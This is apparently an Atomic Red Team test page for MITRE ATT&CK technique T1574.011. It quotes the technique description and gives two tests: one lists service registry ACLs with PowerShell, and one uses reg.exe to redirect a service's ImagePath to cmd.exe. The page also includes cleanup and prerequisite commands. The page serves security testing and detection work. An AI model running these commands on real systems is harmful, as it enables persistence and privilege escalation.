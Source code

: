 # T1574.011 - Services Registry Permissions Weakness
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1574/011)
<blockquote>Adversaries may execute their own malicious payloads by hijacking the Registry entries used by services. Adversaries may use flaws in the permissions for registry to redirect from the originally specified executable to one that they control, in order to launch their own code at Service start.  Windows stores local service configuration information in the Registry under <code>HKLM\SYSTEM\CurrentControlSet\Services</code>. The information stored under a service's Registry keys can be manipulated to modify a service's execution parameters through tools such as the service controller, sc.exe,  [PowerShell](https://attack.mitre.org/techniques/T1059/001), or [Reg](https://attack.mitre.org/software/S0075). Access to Registry keys is controlled through Access Control Lists and permissions. (Citation: Registry Key Security)

If the permissions for users and groups are not properly set and allow access to the Registry keys for a service, then adversaries can change the service binPath/ImagePath to point to a different executable under their control. When the service starts or is restarted, then the adversary-controlled program will execute, allowing the adversary to gain persistence and/or privilege escalation to the account context the service is set to execute under (local/domain account, SYSTEM, LocalService, or NetworkService).

Adversaries may also alter Registry keys associated with service failure parameters (such as <code>FailureCommand</code>) that may be executed in an elevated context anytime the service fails or is intentionally corrupted.(Citation: Kansa Service related collectors)(Citation: Tweet Registry Perms Weakness) </blockquote>

## Atomic Tests

- [Atomic Test #1 - Service Registry Permissions Weakness](#atomic-test-1---service-registry-permissions-weakness)

- [Atomic Test #2 - Service ImagePath Change with reg.exe](#atomic-test-2---service-imagepath-change-with-regexe)


<br/>

## Atomic Test #1 - Service Registry Permissions Weakness
Service registry permissions weakness check and then which can lead to privilege escalation with ImagePath. eg.
reg add "HKLM\SYSTEM\CurrentControlSet\Services\#{weak_service_name}" /v ImagePath /d "C:\temp\AtomicRedteam.exe"

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| weak_service_name | weak service check | String | weakservicename|


#### Attack Commands: Run with `powershell`! 


```powershell
get-acl REGISTRY::HKLM\SYSTEM\CurrentControlSet\Services\* |FL
get-acl REGISTRY::HKLM\SYSTEM\CurrentControlSet\Services\#{weak_service_name} |FL
```






<br/>
<br/>

## Atomic Test #2 - Service ImagePath Change with reg.exe
Change Service registry ImagePath of a bengin service to a malicious file

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| weak_service_name | weak service name | String | calcservice|
| weak_service_path | weak service path | String | %windir%&#92;system32&#92;win32calc.exe|
| malicious_service_path | malicious service path | String | %windir%&#92;system32&#92;cmd.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
reg.exe add "HKLM\SYSTEM\CurrentControlSet\Services\#{weak_service_name}" /f /v ImagePath /d "#{malicious_service_path}"
```

#### Cleanup Commands:
```cmd
sc.exe delete #{weak_service_name}
```



#### Dependencies:  Run with `powershell`!
##### Description: The service must exist (#{weak_service_name})
##### Check Prereq Commands:
```powershell
if (Get-Service #{weak_service_name}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
sc.exe create #{weak_service_name} binpath= "#{weak_service_path}"
```




<br/>
